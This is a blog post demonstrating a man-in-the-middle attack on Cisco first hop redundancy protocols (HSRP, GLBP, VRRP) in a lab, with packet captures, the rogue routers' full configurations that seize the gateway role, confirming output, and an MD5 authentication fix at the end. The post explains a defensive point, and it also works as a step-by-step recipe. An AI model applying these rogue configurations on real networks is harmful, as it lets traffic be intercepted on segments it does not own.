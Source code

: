 ```yaml
---
title: Don't use FHRPs without Authentication
published: 2019-02-17
category:
- Route/Switch
- Security
author: Brandon James
summary: FHRPs have obvious benefits, but a misconfiguration could allow an attacker to MiTM your traffic.
post_image: /static/images/fhrp_diagram1.png
---
```

You are most likely running a first hop redundancy protocol somewhere in your network. If you aren't routing at the access layer and your running a traditional redundant core (ie you aren't using a switch virtualization platform such as Cisco's VSS), one of those places is probably your user facing SVIs. If you aren't using *encrypted* authentication on your FHRP, you're putting your enterprise at risk. 

As a bit of a proof of concept, I've put together the following to show how FHRPs can be used as a channel to launch a Man-in-the-Middle attack. 

[![FHRP Diagram](/static/images/fhrp_diagram1.png "FHRP Diagram")](/static/images/fhrp_diagram1.png)

In the above environment we have two friendly routers on the left. Each router has three interfaces participating in FHRPs. Those interfaces are each plugged into a switch named for the FHRP running on said interfaces. To the right, we have our malicious routers ready to play MitM with our enterprise traffic.

_Note: In most cases this will only allow a partial MitM attack, traffic sent from the users will go to the malicious router, but traffic sent to the user will still need to come from one of the original routers. Regardless, this is still a huge security risk_

Interface configurations from R1 and R2 follow:

```
R1#sh run | beg interface Gigabit
interface GigabitEthernet0/0
 ip address 10.0.0.2 255.255.255.0
 no ip redirects
 standby version 2
 standby 1 ip 10.0.0.1
 standby 1 preempt
!
interface GigabitEthernet1/0
 ip address 10.0.1.2 255.255.255.0
 no ip redirects
 glbp 1 ip 10.0.1.1
 glbp 1 preempt
 negotiation auto
!
interface GigabitEthernet2/0
 ip address 10.0.2.2 255.255.255.0
 negotiation auto
 vrrp 1 ip 10.0.2.1

R2#sh run | beg interface Gigabit
interface GigabitEthernet0/0
 ip address 10.0.0.3 255.255.255.0
 standby version 2
 standby 1 ip 10.0.0.1
 standby 1 priority 50
 standby 1 preempt
!
interface GigabitEthernet1/0
 ip address 10.0.1.3 255.255.255.0
 glbp 1 ip 10.0.1.1
 glbp 1 priority 50
 glbp 1 preempt
 negotiation auto
!
interface GigabitEthernet2/0
 ip address 10.0.2.3 255.255.255.0
 negotiation auto
 vrrp 1 ip 10.0.2.1
 vrrp 1 priority 50
```

### Gathering Data

The three major FHRPs are VRRP, HSRP and GLBP. All three of them use multicast to send protocol advertisements. This means that your switches are happily forwarding these advertisements to anyone who is willing to listen. Our malicious actors are aware of this and start taking packet captures:

Malicious_HSRP captures the following being multicast to 224.0.0.12:

```
Cisco Hot Standby Router Protocol
    Group State TLV: Type=1 Len=40
        Version: 2
        Op Code: Hello (0)
        State: Standby (5)
        IP Ver.: IPv4 (4)
        Group: 1
        Identifier: ca:02:2a:cc:00:08 (ca:02:2a:cc:00:08)
        Priority: 50
        Hellotime: Default (3000)
        Holdtime: Default (10000)
        Virtual IP Address: 10.0.0.1
    Text Authentication TLV: Type=3 Len=8
        Authentication Data: Default (cisco)
```

 Malicious_GLBP captures the following being multicast to 224.0.0.102:

```
Gateway Load Balancing Protocol
    Version?: 1
    Unknown1: 0
    Group: 1
    Unknown2: 0000
    Owner ID: ca:01:2a:bd:00:1c (ca:01:2a:bd:00:1c)
    TLV l=28, t=Hello
        Type: Hello (1)
        Length: 28
        Unknown1-0: 00
        VG state?: Active (32)
        Unknown1-1: 00
        Priority: 100
        Unknown1-2: 0000
        Helloint: 3000
        Holdint: 10000
        Redirect: 600
        Timeout: 14400
        Unknown1-3: 0000
        Address type: IPv4 (1)
        Address length: 4
        Virtual IPv4: 10.0.1.1
    TLV l=20, t=Request/Response?
        Type: Request/Response? (2)
        Length: 20
        Forwarder?: 1
        VF state?: Active (32)
        Unknown2-1: 00
        Priority: 167
        Weight: 100
        Unknown2-2: 6338400258abcd
        Virtualmac: Cisco_00:01:01 (00:07:b4:00:01:01)
```

Note: The built in protocol filter for GLBP in wireshark doesn't seem to have information on all the fields. However, all the information we require is visible (Group, IP and Priority).

Malicious_VRRP captures the following being multicast to 224.0.0.18:

```
Virtual Router Redundancy Protocol
    Version 2, Packet type 1 (Advertisement)
    Virtual Rtr ID: 1
    Priority: 100 (Default priority for a backup VRRP router)
    Addr Count: 1
    Auth Type: No Authentication (0)
    Adver Int: 1
    Checksum: 0x6efb [correct]
    [Checksum Status: Good]
    IP Address: 10.0.2.1
```

### Launching the Attack

Now that our malicious actors have gathered the required information, they are ready to attack. The process is very simple.

First the malicious routers change their default gateways to be either of the friendly routers actual IP addresses, then they configure their interface with matching FHRP settings, with the exception of the priority value, which should be set to a better (higher) value than the current active FHRP router.

The static route and interface configurations for the malicious routers follows:

```
Malicious_HSRP#sh run | i route
ip route 0.0.0.0 0.0.0.0 10.0.0.2
Malicious_HSRP#sh run int gi0/0
Building configuration...

Current configuration : 218 bytes
!
interface GigabitEthernet0/0
 ip address 10.0.0.254 255.255.255.0
 standby version 2
 standby 1 ip 10.0.0.1
 standby 1 priority 150
 standby 1 preempt

Malicious_GLBP#sh run | i route
ip route 0.0.0.0 0.0.0.0 10.0.1.2
Malicious_GLBP#sh run int gi0/0
Building configuration...

Current configuration : 190 bytes
!
interface GigabitEthernet0/0
 ip address 10.0.1.254 255.255.255.0
 glbp 1 ip 10.0.1.1
 glbp 1 priority 150
 glbp 1 preempt

Malicious_VRRP#sh run | i route
ip route 0.0.0.0 0.0.0.0 10.0.2.2
Malicious_VRRP#sh run int gi0/0
Building configuration...

Current configuration : 174 bytes
!
interface GigabitEthernet0/0
 ip address 10.0.2.254 255.255.255.0
 vrrp 1 ip 10.0.2.1
 vrrp 1 priority 150
```

Note: in the case of GLBP, if load-balancing is configured (it's not by default), the weight may be adjusted in order to make the malicious router more preferred. In addition, clients on the GLBP may continue to use the old GLBP until their old ARP entries expire.

At this point the malicious routers are now the default-gateway for all devices on their segments:

```
Malicious_HSRP#sh standby brief 
                     P indicates configured to preempt.
                     |
Interface   Grp  Pri P State   Active          Standby         Virtual IP
Gi0/0       1    150 P Active  local           10.0.0.2        10.0.0.1


Malicious_GLBP#sh glbp brief  
Interface   Grp  Fwd Pri State    Address         Active router   Standby router
Gi0/0       1    -   150 Active   10.0.1.1        local           10.0.1.2
Gi0/0       1    1   -   Listen   0007.b400.0101  10.0.1.2        -
Gi0/0       1    2   -   Listen   0007.b400.0102  10.0.1.3        -
Gi0/0       1    3   -   Active   0007.b400.0103  local           -
 

Malicious_VRRP#sh vrrp brief 
Interface          Grp Pri Time  Own Pre State   Master addr     Group addr
Gi0/0              1   150 3414       Y  Master  10.0.2.254      10.0.2.1   
```

At this point the attacker can just sit back and watch the packets fly by.

### Solution

Fortunately, all three of the FHRPs support encrypted authentication and it can take as little as one line to configure. 

```
R1(config-if)#standby 1 authentication md5 key-string SECURE_KEY
R1(config-if)#glbp 1 authentication md5 key-string SECURE_KEY
R1(config-if)#vrrp 1 authentication md5 key-string SECURE_KEY
```

*Note: This note was originally on my personal blog. I've backdated the post to show the day it was originally written*